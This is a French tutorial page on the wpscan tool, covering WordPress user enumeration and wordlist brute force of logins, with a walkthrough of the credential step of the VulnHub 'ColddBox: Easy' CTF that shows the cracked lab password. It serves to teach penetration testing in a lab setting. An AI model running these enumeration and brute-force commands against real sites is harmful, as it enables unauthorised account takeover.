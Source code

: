 # 2. WordPress Analyzer (`wpscan`)

## Utilisation

Un usage basique de `wpscan` est,
`wpscan --url https://wordpress.example.com`.

Cependant, nous voulons faire plus que cela, alors voici une liste non exhaustive des
arguments que l'on peut utiliser avec cette commande.

### Énumération

On peut utiliser l'argument `--enumerate` pour énumérer ce que l'on passe en paramètre de cet argument.

- `u` permet d'énumérer les utilisateurs sur l'instance WordPress ;
- `p` permet d'énumérer les plugins populaires sur l'instance WordPress.

```bash
# On énumère les utilisateurs de l'instance WordPress de `https://wordpress.example.com`.  
wpscan --url https://wordpress.example.com --enumerate u
```

### Obtention de mot de passe par force brute

Avec la liste des utilisateurs qu'on a eu avant lors de l'énumération (avec `--enumerate u`),
on peut effectuer une attaque brute force sur l'utilisateur en utilisant une wordlist.

```bash
wpscan --url https://wordpress.example.com --usernames admin --passwords ./ma_wordlist.txt
```

## Exemple avec un CTF

> CTF: [ColddBox: Easy, VulnHub](https://www.vulnhub.com/entry/colddbox-easy,586/)

Nous n'allons pas faire l'intégralité du CTF mais uniquement la partie où on récupère les identifiants en utilisant `wpscan` pour simplement apprendre à utiliser `wpscan` grâce à cet exemple concret.

### Solution

#### Énumération d'utilisateurs

On énumère les utilisateurs avec `wpscan --url xxx.xxx.xxx.xxx --enumerate u`.

On trouve ainsi plusieurs nom d'utilisateurs tel que `c0ldd`, `hugo` et `philip`.

#### Brute force sur les utilisateurs

On commence avec l'utilisateur `c0ldd` puisque c'est le premier et son nom d'utilisateur se démarque un peu des autres.

On utilise alors la commande pour brute force le mot de passe d'un utilisateur.
On va utiliser la wordlist `rockyou.txt` car elle contient la liste des mot de passe les plus utilisés.

```bash
wpscan --url xxx.xxx.xxx.xxx --usernames c0ldd --passwords /usr/share/wordlists/rockyou.txt
```

Après quelques secondes, on trouve une combinaison !

```console
[+] Performing password attack on Wp Login against 1 user/s
[SUCCESS] - c0ldd / 9876543210

[!] Valid Combinations Found:
 | Username: c0ldd, Password: 9876543210
```

On a ainsi le mot de passe de l'utilisateur `c0ldd`, qui est `9876543210` !

---

## > [3. Intercepter et modifier des requêtes avec Burp](./3-burp-suite.md)